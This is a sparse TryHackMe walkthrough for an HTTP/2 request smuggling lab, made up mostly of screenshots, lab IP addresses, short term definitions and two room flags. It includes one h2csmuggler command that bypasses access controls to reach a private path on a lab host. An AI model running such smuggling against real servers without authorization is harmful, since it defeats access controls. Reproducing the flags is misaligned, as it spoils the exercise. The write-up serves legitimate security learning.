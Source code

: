 ### 08-Mar-24-Fri

[TryHackMe | HTTP/2 Request Smuggling](https://tryhackme.com/room/http2requestsmuggling)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/b4ac5d67-382f-4104-8737-cc739802d905)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/4598784f-599a-46a5-aa31-2d882eb57da9)

https://10.10.201.196:8000

https://10.10.201.196:8000/post/12315198742342

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/cf675f9b-6d8d-441e-84e4-8a26a744b9d1)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/62675201-c0f0-49e6-a444-7fc9989d9694)

**H2.CL** *HTTP/2 Content-Length header*

**H2.TE** *HTTP/2 Transfer-Encoding header*

**CRLF** *Carriage Return Line Feed*

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/00632133-6455-44c8-b4c3-71a4f286891a)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/f781de7b-1797-4080-b3d7-f6b3098f2efc)

```
THM{my_name_is_a_flag}
```

https://10.10.140.238:8100/hello

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/e863829c-46cd-4159-a7b2-d56011b067f6)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/76c016e6-171b-46e0-9f91-2707f30a0d91)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/60d3a1bd-6d19-420f-b831-4dc223c0a847)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/a30253f0-e2f6-4d4e-9eeb-b1e3a8040500)


https://github.com/BishopFox/h2csmuggler

```
python3 h2csmuggler.py -x https://10.10.140.238:8200/ https://10.10.140.238:8200/private
```

```
THM{walls_are_a_suggestion}
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/17afdbba-a780-4a74-bed7-bab14fd1610c)
